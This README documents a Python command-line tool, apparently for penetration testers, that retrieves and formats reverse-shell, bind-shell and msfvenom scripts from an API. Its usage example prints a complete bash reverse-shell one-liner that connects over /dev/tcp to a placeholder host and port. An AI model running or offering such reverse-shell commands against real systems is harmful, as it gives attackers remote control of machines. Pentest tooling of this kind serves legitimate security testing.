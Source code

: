 ## CLI Tool for interacting with Pen Tools API.
A command line interface tool for interacting with Pen Tools API. Quickly retrieve and format scripts using a simple set of commands.
### Installation 
**The package requires Python 3.7 or higher**.

Install latest version from [PyPI](https://pypi.org/project/pentools/): ```pip install pentools``` 

### Resources
[API documentation](https://pentools.herokuapp.com/docs)
### Usage
Retrieve the list of scripts based on specified category (leave blank to see all).

```
pentools list
```
output:
```
Available types

0. rev
1. bind
2. msf_venom
3. listener
```

Add the ```-f``` flag to see available scripts.

```
pentools list rev  -f
```
output:
```
Available scripts and types

0. rev
    Shell session established on a connection that is initiated from a remote machine.
        0. bash_i [id: 1]('linux', 'mac')
        1. bash_196 [id: 2]('linux', 'mac')
        2. bash_read_line [id: 3]('linux', 'mac')
        3. Bash_5 [id: 4]('linux', 'mac')
        ...
```

Retrieve and format a specific script based on id.

```
pentools script -i 1 -ho example.ip -p 12345 -s bin/bash
```
output:
```
---------------(code)---------------

bin/bash -i >& /dev/tcp/example.ip/12345 0>&1

-------------(end code)-------------
```
### Contact
* Email me at <sarartur.ruk@gmail.com> or open a new [Issue](https://github.com/sarartur/pentools/issues) on Github.


        


